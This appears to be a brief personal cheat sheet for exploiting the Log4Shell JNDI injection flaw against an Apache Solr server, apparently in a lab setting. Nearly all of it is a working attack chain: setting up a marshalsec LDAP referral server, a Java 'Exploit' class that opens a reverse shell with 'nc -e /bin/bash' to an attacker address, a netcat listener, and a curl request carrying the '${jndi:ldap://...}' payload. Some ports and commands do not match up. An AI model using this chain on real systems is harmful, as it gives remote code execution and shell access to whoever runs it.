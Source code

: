 https://youtu.be/OJRqyCHheRE
https://github.com/mbechler/marshalsec 

# need http server
- python3 -m http.server 8081

# need ldap referral server
- cd /marshalsec
- sudo apt install maven
- mvn clean package -DskipTests
- java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.109.253:8081/#Exploit"

# need to setup exploit and name Exploit.java
 `
 public class Exploit {
      static {
          try {
              java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.109.253 8081");
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
`
# compile
- javac Exploit.java

# more httpservers
- python3 -m http-server 8082

# netcat
- nc -lnvp 9999

# attack
- curl 'http://10.10.109.254:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
